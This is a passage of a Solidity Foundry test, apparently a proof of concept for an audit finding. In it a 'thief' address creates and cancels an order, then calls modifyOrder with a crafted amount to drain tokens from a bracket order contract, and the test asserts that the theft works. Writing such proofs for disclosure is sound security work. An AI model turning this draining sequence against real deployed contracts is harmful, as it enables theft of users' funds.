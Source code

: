 ```solidity
             tokenIn.approve(address(bracketContract), 10e18);
             bracketContract.createOrder("", 35e7, 15e7, 10e18, tokenIn, tokenOut, user3, 20, 20, 100, false, "");
             vm.stopPrank();

             uint256 startingBracketContractBalance = tokenIn.balanceOf(address(bracketContract));
             address thief = makeAddr("thief");
             uint256 balanceOfBracketContract = tokenIn.balanceOf(address(bracketContract));

             //2. thief creates an order with balance of the bracket contract
             vm.startPrank(thief);
             TestERC20(address(tokenIn)).mint(balanceOfBracketContract);
             //thief balance before order creation
             uint256 startingBalance = tokenIn.balanceOf(thief);
             tokenIn.approve(address(bracketContract), balanceOfBracketContract);
             bracketContract.createOrder(
                 "", 4e8, 2e8, balanceOfBracketContract, tokenIn, tokenOut, thief, 20, 20, 100, false, ""
             );

             //check that thief balance reduces by balanceOfBracketContract
             uint256 balanceAfterOrderCreation = tokenIn.balanceOf(thief);
             assertEq(balanceAfterOrderCreation, 0);

             //3. thief gets their orderId and immediately cancels order
             uint96[] memory orderIdsArray = bracketContract.getPendingOrders();
             uint256 arrLength = orderIdsArray.length;
             uint96 orderId = orderIdsArray[arrLength - 1];
             bracketContract.cancelOrder(orderId);

             //check that thief balance increases to initial amount after order cancellation
             uint256 balanceAfterOrderCancellation = tokenIn.balanceOf(thief);
             assertEq(balanceAfterOrderCancellation, startingBalance);

             //4. thief calls modifyOrder with their orderId and amountDelta. The difference between `amountDelta` and the initial order `amountIn` is just slightly above the minimum amount needed to create an order
             uint256 minOrderAmountInUsd = automationMaster.minOrderSize();
             //convert minOrderAmount to the token amount and then subtract
             uint256 priceOfOneTokenIn = pythOracleIn.currentValue(); //3000e8
             uint256 tokenPrecision = 10 ** TestERC20(address(tokenIn)).decimals();
             uint256 minOrderAmountInTokenIn = (minOrderAmountInUsd * tokenPrecision) / priceOfOneTokenIn;
             //add one extra token to minOrderAmountInTokenIn so condition in `AutomationMaster::checkMinOrderSize` passes
             uint256 amountDelta = balanceOfBracketContract - (minOrderAmountInTokenIn + 1e18);

             //call modifyOrder
             bracketContract.modifyOrder(orderId, 4e8, 2e8, amountDelta, tokenOut, thief, 20, 100, false, false, "");
             vm.stopPrank();

             uint256 finalBalance = tokenIn.balanceOf(thief);
             uint256 finalBracketContractBalance = tokenIn.balanceOf(address(bracketContract));

              //5. check that thief balance increases by (balanceOfBracketContract - 1)
             assertGt(finalBalance, startingBalance);
             assertLt(finalBracketContractBalance, startingBracketContractBalance);
             console2.log("Thief's starting balance: ", startingBalance);
             console2.log("Thief's final balance: ", finalBalance);
             console2.log("Bracket Contract starting balance", startingBracketContractBalance);
             console2.log("Bracket Contract final balance", finalBracketContractBalance);
         }
```